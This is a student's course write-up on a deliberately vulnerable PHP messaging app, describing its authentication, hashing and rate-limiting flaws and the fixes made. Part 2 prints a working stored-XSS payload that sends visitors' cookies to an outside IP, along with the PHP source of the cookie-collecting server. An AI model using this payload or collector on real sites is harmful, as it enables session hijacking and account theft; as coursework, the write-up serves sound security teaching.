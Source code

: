 # Project Writeup

Bradley Rosenfeld - COS342, 11/14/15

## Part 1.

1. The application tries to prevent access to messages by checking for the existence of a cookie that is created when the user is authenticated and logged in. Messages can be deleted by visiting a GET URL, the link to which is only visible when the user who is viewing the message has a cookie that matches the user who created the message. Even worse, the deletion action is vulnerable to SQL injection which would allow any user to delete any post or worse.

 Unfortunately, these security policies are not adequate to prevent unauthorized access. Malicious users can easily create a cookie called "hackme" which contains the username which they wish to target. The actual message deletion action doesn't check to see if the user is authorized, anyone can enter an arbitrary message ID which they wish to delete. 

 In order to fix this I implemented PHP sessions. Rather than sending the actual username and password as a cookie, a unique session ID is set which an attacker wouldn't be able to guess (they could snoop for it, but that is addressed later). The application then checks for the existence of the session ID and makes sure it is valid. Similarly, the deletion action will check to make sure the user is actually authorized and that the ID provided is valid.

2. The database only contains password hashes. The passwords are not hashed with a strong algorithm and they are not salted resulting in duplication of hashes.

3. Attackers can easily snoop for user credentials for multiple reasons. Since the site is not HTTPS, usernames and passwords are sent via plaintext over the network. Furthermore, the username and hashed password are stored in cookies which are sent with every network request. It would be trivial to snoop for credentials.

 To fully fix this, I would need to enable HTTPS. But I did stop saving the username and password in a cookie. Instead I use a unique PHP session ID for further authentication.

4. Login attempts are not rate limited, making brute force attacks trivial.
 
 I fixed this by slowing down the number of attempts allowed per minute on a user. Once the user has exceeded 5 attempts, they have to wait a minute before trying again.

5. No password scheme was implemented, users could submit anything as a password.
 
 I implemented a password policy that says passwords must be at least 8 characters long, aren't dictionary words, and don't have too many letters, numbers, or special characters (must be a combination). This policy is enforced by my PHP Password class in the check() method.

## Part 2

The attacker could post an image that fails to load, forcing JS to run. In this case, I wrote a simple script that sends the user's cookie to the remote server.

```
<img src="fdfjkdfjfkjdfdf.dfdjf" onerror="this.src=\'http://10.121.20.103/hackme-xss.php?c=\' + document.cookie">
```

If you're on the Taylor University network, you can view the result of this attack by visiting [10.121.20.103/hackme-xss.php](http://10.121.20.103/hackme-xss.php)

In order to fix this, I disabled all usage of HTML in messages by using the `htmlspecialchars` function in PHP when rendering the user submitted content.

The source code of the attacker server is as follows:

```
<?php
$secretFile = "/tmp/foo.txt";
if (isset($_GET['c'])) {
	$fh = fopen($secretFile, 'a') or die("can’t open file");	
	$stringData = $_GET['c']."\n";
	fwrite($fh, $stringData);
	fclose($fh);

	//Send an img
	header("Content-Type: image/png");
} else {
	header("Content-Type: text/plain");
	readfile($secretFile);
}
?>
```

